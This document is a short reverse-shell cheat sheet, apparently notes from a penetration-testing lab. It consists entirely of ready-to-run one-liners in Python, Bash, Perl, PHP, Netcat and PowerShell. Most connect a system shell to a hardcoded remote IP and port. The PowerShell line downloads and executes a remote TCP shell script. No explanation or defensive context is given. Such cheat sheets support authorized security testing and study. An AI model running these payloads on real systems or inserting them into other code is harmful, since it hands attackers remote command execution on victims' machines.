 ```yaml
---
title: "Reverse Shells"
---
```


Python:

<div style="background-color: #f5f5f5; border: 1px solid #ccc; padding: 10px; margin-bottom: 10px; display: inline-block; font-family: 'Courier New', Courier, monospace;  width: 500px; overflow-x: auto;">
  <code>python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.218",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' </code>
</div>

Bash:
<div style="background-color: #f5f5f5; border: 1px solid #ccc; padding: 10px; margin-bottom: 10px; display: inline-block; font-family: 'Courier New', Courier, monospace;">
  <code>bash -i >& /dev/tcp/10.0.0.1/8080 0>&1 </code>
  <code>bash -c "bash -i >& /dev/tcp/192.168.45.183/443 0>&1" </code>
</div>


Perl:
<div style="background-color: #f5f5f5; border: 1px solid #ccc; padding: 10px; margin-bottom: 10px; display: inline-block; font-family: 'Courier New', Courier, monospace; width: 300px; overflow-x: auto;">
  <code>perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' </code>
</div>

PHP:
<div style="background-color: #f5f5f5; border: 1px solid #ccc; padding: 10px; margin-bottom: 10px; display: inline-block; font-family: 'Courier New', Courier, monospace; width: 300px; overflow-x: auto;">
  <code><?php $sock=fsockopen("192.168.45.218",80);exec("/bin/sh -i <&3 >&3 2>&3"); ?> </code>
  <code><?php $sock=fsockopen("192.168.45.218",80);exec("/bin/sh -i <&3 >&3 2>&3"); ?> </code>
</div>

Netcat:
<div style="background-color: #f5f5f5; border: 1px solid #ccc; padding: 10px; margin-bottom: 10px; display: inline-block; font-family: 'Courier New', Courier, monospace; width: 300px; overflow-x: auto;">
  <code>nc -e /bin/sh 10.0.0.1 1234 </code>
  <code>rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.218 1234 >/tmp/f </code>
</div>

Powershell:
<div style="background-color: #f5f5f5; border: 1px solid #ccc; padding: 10px; margin-bottom: 10px; display: inline-block; font-family: 'Courier New', Courier, monospace; width: 300px; overflow-x: auto;">
  <code>powershell -c "iex(new-object net.webclient).downloadstring(\"http://192.168.45.235:1337/Invoke-PowerShellTcp.ps1\")" </code>
</div>